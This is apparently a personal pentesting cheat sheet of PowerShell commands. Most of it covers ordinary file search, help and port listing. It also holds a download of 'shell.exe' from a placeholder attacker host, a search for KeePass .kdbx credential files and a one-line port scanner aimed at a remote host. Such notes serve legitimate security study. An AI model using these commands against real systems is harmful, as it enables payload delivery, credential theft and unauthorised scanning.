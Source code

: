 # Powershell

Discoverability of scripting languages like Powershell or shell is poor by design.
These notes are for the weary shell-user who finds themselves stuck in a powershell (possibly on a remote machine).
Powershell cmdlets follow the naming pattern of `Verb-Noun`.

## Useful meta commands

Cmdlet for listing other available cmdlets:
```
Get-Command
```

It can take inputs with wildcards.

Once you find the cmdlet you want to use, you can investigate it with:

```
Get-Help ${cmdlet}
```

Now a man-page like output should help discovering how to use it.


## Downloading a file from a URI

```
Invoke-WebRequest -Uri "http://${ATTACK_IP}:${PORT}/shell.exe" -OutFile "shell.exe"
```

## Useful commands cmdlets for searching and enumerating

searching, similar to `find`:
```
Get-ChildItem -Recurse -Filter "filename*"
```
Remeber that you can ignore errors with `-ErrorAction SilentlyContinue` for all these commands.

If we want all files of a specific filetype, we can do:

```
Get-ChildItem -Include *.txt *.kdbx -File -Recurse -ErrorAction SilentlyContinue`
```

You can `cat` with:

```
Get-Content -Path $file
```


Base64 decode:

```
[System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($exampleVar))
```

Open ports:

```
Get-NetTCPConnection
```

Search for only listening ports:
```
Get-NetTCPConnection | Where-Object -Property State -EQ Listen
```

Search for file containing a specific text:

```
Get-ChildItem -Recurse -Path "C:\" | Select-String "${someVar}" -List | Select Path
```

We can use the following trick to exclude paths we don't care about:
```
Get-ChildItem -Recurse -Path "C:\" | Select-String "${someVar}" -List | Select Path | Where-Object { $_ -notmatch ".Net" -and $_ -notmatch "Windows" }
```


If you have a search you know will output the file you want, you can pipe it into `Select-Object`:

```
Get-ChildItem -Path "C:\" -Recurse -Filter "*filter*" | Select-Object -First 1 | Get-Content
```

This will cat the contents of the first file the `Get-ChildItem` cmdlet outputs.

## Open powershell terminal with other credentials:

```
start powershell -credential ""
```

Note you need to kill the parent shell for this to work.
There are probably smarter ways.

## Enumerating open ports with Powershell

(Also referenced in [enumeration.md](./../enumeration.md)
```
1..1024 | % {echo ((New-Object Net.Sockets.TcpClient).Connect("$RHOST", $_)) " $_/tcp open"} 2>$null
```
